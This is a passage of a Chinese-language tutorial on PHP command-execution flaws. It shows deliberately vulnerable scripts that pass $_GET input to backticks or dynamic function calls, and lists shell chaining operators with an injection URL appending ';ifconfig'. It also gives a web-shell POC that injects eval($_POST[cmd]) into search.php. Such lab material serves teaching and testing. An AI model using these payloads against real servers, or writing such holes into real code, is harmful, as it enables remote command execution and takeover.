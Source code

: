 在kali linux中启动Apache服务，输入`service apache2 start`然后将上述代码放在/var/www/html/下的cmd.php中。

在Linux系统下的shell命令，有以下一些截断拼接符：

- ;    前面的执行完执行后面的
- \|    是管道符，显示后面的执行结果
- \|\|    前面的出错时执行后面的
- &    无论前面是真是假都会执行
- &&    只有前面语句为真，才会执行后面语句

例：使用拼接符从而利用命令执行漏洞执行ifconfig命令http://ip/cmd.php?cmd=127.0.0.1;ifconfig



## 0x05 ``反引号执行

在PHP中，除了函数可以执行系统命令，反引号`也可以作为系统命令执行来使用。`
```php
<?php
echo "<pre>";
if(isset($_GET["cmd"])){
    $cmd = $_GET["cmd"];
    echo `$cmd`;
}
echo "</pre>";
?>
```

输入http://ip/cmd.php?cmd=ipconfig进行攻击。



## 0x06 eval函数

eval()函数把字符串按照PHP代码来计算。该字符串必须是合法的PHP代码，且必须以分号结尾。

如果没有在代码字符串中调用return语句，则返回NULL。

如果代码中存在解析错误，则eval()函数返回false。
```php
<?php
    eval("echo hello;");
?> 
```



## 0x07 菜刀连接

利用菜刀连接命令执行的位置，也被称为代码执行。POC：

/search.php?searchtype=5&tid=&area=eval($_POST[cmd])



## 0x08 动态代码执行
```php
<?php
$a=$_GET['a'];
$b=$_GET['b'];
$a($b);
?>
```
